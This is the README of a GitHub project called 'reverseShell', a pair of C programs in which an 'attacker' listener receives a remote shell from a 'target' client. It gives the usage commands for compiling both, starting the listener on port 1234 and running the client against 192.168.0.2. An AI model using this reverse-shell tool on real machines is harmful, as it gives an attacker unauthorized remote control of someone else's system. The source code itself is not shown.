 # reverseShell
[![GitHub Issues](https://img.shields.io/github/issues/Yashvendra/reverseShell.svg?label=Issues)](https://www.github.com/Yashvendra/reverseShell/issues)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat&label=Contributions&colorA=blue&colorB=black	)](#)

👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I used `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script on target and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

